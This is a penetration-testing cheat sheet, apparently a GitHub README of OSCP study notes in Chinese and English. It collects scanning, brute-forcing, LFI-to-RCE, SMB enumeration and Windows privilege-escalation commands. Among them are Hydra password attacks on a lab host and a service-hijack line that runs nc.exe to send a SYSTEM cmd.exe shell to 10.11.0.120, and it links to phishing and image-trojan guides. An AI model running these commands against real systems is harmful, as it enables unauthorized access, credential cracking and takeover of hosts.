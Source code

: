 # Learn OSCP

### EXP

1. [01_lfi_phpinfo_exp.py](exps/01_lfi_phpinfo_exp.py)  利用 *LFI* 和 *PHPINFO* 到 *getshell*，[资料来源](https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf)



### **Hack Bar**

- *Remember turn off the automatic updates*

- *Post request not work as excepted*



### 识别操作系统位数

- *i686*  *i386* 代表 32 位操作系统
- *x86_64* 代表 64 位操作系统

### **在 64 位的 *kali* 上编译 32 位系统的exp**

- 安装特定依赖库

  ```bash
  $ apt-get install build-essential module-assistant gcc-multilib g++-multilib -y
  ```

- 编译

  ```bash
  $ gcc -m32 exp.c
  ```




### Reverse Shell & Spawning TTY & Upgrade it

[Reverse_Spawn_Upgrade_Shell](techniques/Reverse_Spawn_Upgrade_Shell)



*Nikto* 用于发现 *Web Server* 的默认配置、不安全的配置文件和程序。

```BASH
# nikto -h x.x.x.x  // Default 80
# nikto -h x.x.x.x -p 443,80  // multiple ports
# nikto -h https://url   // protocol, host
# nmap -p80 192.168.0.0/24 -oG - | nikto -h -   // scan multiple hosts
```

*Hydra* 爆破常见的服务

```bash
hydra -L user.txt  -P pass.txt 10.11.1.31 http-post-form "/login-off.asp:txtLoginID=^USER^&txtPassword=^PASS^&cmdSubmit=Login:F=ACCESS DENIED" -V


hydra -l usernmae  -P pass.txt 10.11.1.31 mssql -V # cracked 1433 ports windows
```



### LFI2RCE

原理：通过在服务器上写下代码，接着通过 *LFI* 利用该代码

- 通过包含 *Web Server* 或者 *ssh* 的日志
  - 用户有权限访问日志（大多数场景下是没有权限读取日志的）
  - 找到日志所在路径
    - *apache* */var/log/apache2/error.log*  */var/log/httpd-error.log*
    - *ssh /var/log/auth.log*
-  包含 *php://filter*  或 *php://input* 来实现
-  通过 *phpinfo.php* 和 *lfi* 来实现，[推荐资料](https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf)

***tip***： `%00` 截断仅适用于 *php* 版本低于5.3



场景如果是 *CMS* 的话，除了尝试寻找 *upload* 功能，切记观察其他功能，不要一条路走到底。





1. [LFI2RCE](https://www.exploit-db.com/papers/12992)

### Privilege Escalation for Windows


- [Windows Privilege Escalation Fundamentals](https://www.fuzzysecurity.com/tutorials/16.html)
- [AccessChk v6.12](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) 用于确认 *windows* 用户权限
- [msfvenom-cheat-sheet](https://nitesculucian.github.io/2018/07/24/msfvenom-cheat-sheet/)

- [Windows-pentest](https://github.com/ankh2054/windows-pentest) 包含有 *xp* 版本的 *accesschk*
- [Windows_Privesec](https://gist.github.com/sckalath/8dacd032b65404ef7411) 与  [Windows Privilege Escalation Fundamentals](https://www.fuzzysecurity.com/tutorials/16.html) 的 *Roll up Your Sleeves* 比较像
- [OSCP-Windows-privilege-escalation](https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html) 与 第一篇文章相比，条理更清晰，内容更精简， 建议结合起来使用。

### Tips

##### SMB 信息收集

Server Message Block 协议对应的操作系统信息如下

- **SMB1** – Windows 2000, XP and Windows 2003
- **SMB2** – Windows Vista SP1 and Windows 2008
- **SMB2.1** – Windows 7 and Windows 2008 R2
- **SMB3** – Windows 8 and Windows 2012.

识别 SMB NetBIOS 服务（通常监听于 139 和 445 端口）

1. `nmap -v -p 139,445 -oG smb.txt x.x.x.1-254` 
2. `nbtscan -r  x.x.x.0/24`

3. enum4linux 该工具集成了 *smbclient*、*rpcclinet*、*net* 和 *nmblookup*

漏洞识别

```bash
root@kali:~# ls -l /usr/share/nmap/scripts/smb*

root@kali:~# nmap -v -p 139,445 --script smb-xxx x.x.x.x # 同时加载多个 NSE 脚本
```

[SMB-enumeration经典参考资料](https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html)



##### nmap 信息收集

```BASH
$ nmap -v -sV -sT --top-ports 10 --open x.x.x.x  # 快速扫描 top 10 端口

```



##### 路径信息收集

```shell
# gobuster dir -u http://X.X.X.X/ -w /mnt/hgfs/share/OSCP/SecLists/Discovery/Web-Content/common.txt   -s '200,204,301,302,307,403,500' -e  -t 50

# wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/big.txt --hc 404 http://10.11.1.22/FUZZ
```



###  查看当前用户身份的方式

```vbscript
# 无法执行 whoami 以及 echo %username% 的场景
# 解决方案一
echo 1>who.ami
dir /q

# 解决方案二
# 上传 kali 中的 /usr/share/windows-binaries/whoami.exe 到服务器上
```



### 文件上传的存放位置

`C:\RECYCLER ` 通常是可读写的目录，上传的 *exp* 建议放在这儿。



### Bash 创建特殊的文件

```bash
touch ./-filename.txt
touch -- -filename.txt
rm ./-filename.txt
rm -- --filename.txt
```

### 查找权限存在问题的的 services

*[accesschk](https://web.archive.org/web/20111111130246/http://live.sysinternals.com/accesschk.exe)* (*Windows XP*) 可用于判断 *servcies* 的权限，总是先执行 `/acceptula`。因为第一次执行该程序会弹窗，所以带入参数来确认弹窗。

```shell
# 建议每次从命令行执行accesschk时，都带上/accepteula

accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -ucqv SSDPSRV /accepteula
accesschk.exe -ucqv upnphost /accepteula



sc config upnphost binpath= "C:\Inetpub\Scripts\nc.exe -nv 10.11.0.120 2233 -e C:\WINDOWS\System32\cmd.exe"

sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
net start upnphost

C:\"Documents and Settings"\Administrator\Desktop\proof.txt

```



##### 提权方式

1. 配置存在问题的 *services*
2. [*Exploiting environment variables*](http://techblog.rosedu.org/exploiting-environment-variables.html)
3. [restricted-linux-shell-escaping-techniques/](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/) 

##### 空闲时间

[社工钓鱼](https://null-byte.wonderhowto.com/how-to/hide-virus-inside-fake-picture-0168183/)

[图片木马](http://gv7.me/articles/2017/picture-trojan-horse-making-method/)


# ChangeLog
- 20190713 add 
- 20190711 update
- 20190710 init

